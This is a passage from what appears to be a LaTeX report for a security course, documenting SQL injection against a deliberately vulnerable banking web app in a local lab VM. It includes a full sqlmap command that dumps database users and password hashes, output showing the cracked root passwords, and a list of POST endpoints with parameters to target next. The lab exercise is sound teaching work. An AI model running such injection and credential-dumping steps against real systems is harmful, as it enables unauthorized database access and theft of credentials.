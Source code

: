 As you can see in Listing \ref{listing:dump_table}. you receive a list of the columns of the table. You also get a list of all entries. For this example only the data of the admin were chosen, but you can access every entry.
 \newline
 \newline
A further possibility is to break the authentication of the database by hijacking the password of the database root user.

\begin{lstlisting}[caption=Get password of database root user,label=listing:database_get_password]
	python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --users --passwords -D banking_development 
	...
	database management system users [8]:
	[*] ''@'localhost'
	[*] ''@'samurai-wtf'
	[*] 'debian-sys-maint'@'localhost'
	[*] 'phpmyadmin'@'localhost'
	[*] 'root'@'127.0.0.1'
	[*] 'root'@'::1'
	[*] 'root'@'localhost'
	[*] 'root'@'samurai-wtf'
	...
	database management system users password hashes:                                               
	[*]  [1]:
	password hash: NULL
	[*] debian-sys-maint [1]:
	password hash: *3380A3DC27DEAC2CFFE40754FE91863CE3B5E786
	[*] phpmyadmin [1]:
	password hash: *8CE09BF054AFC740BF3C6153310E9A9565E34DE0
	clear-text password: samurai
	[*] root [2]:
	password hash: *7D9A6BEA19329B17998DC4F1130F8E40884A227F
	clear-text password: badass
	password hash: *8CE09BF054AFC740BF3C6153310E9A9565E34DE0
	clear-text password: samurai
	
\end{lstlisting}

With a integrated dictionary-based password cracking tool, you can convert the hashed password to plain text assuming weak passwords (like in our case). Now you can access the adminer web-interface and login as root.

\subsubsection{POST}
\begin{itemize}
	\item http://192.168.56.101/sc-course/controllers/user/login\_process.php (email,password)
	\item http://192.168.56.101/sc-course/controllers/transactions/create\_process.php (transaction[payment][to\_iban],transaction[payment][amount])
	\item http://192.168.56.101/sc-course/controllers/user/registration\_process.php (user[email],user[name],user[password],user[password\_confirmation],user[account\_no],user[employee],user[terms\_and\_conditions])
	\item
	
\end{itemize}

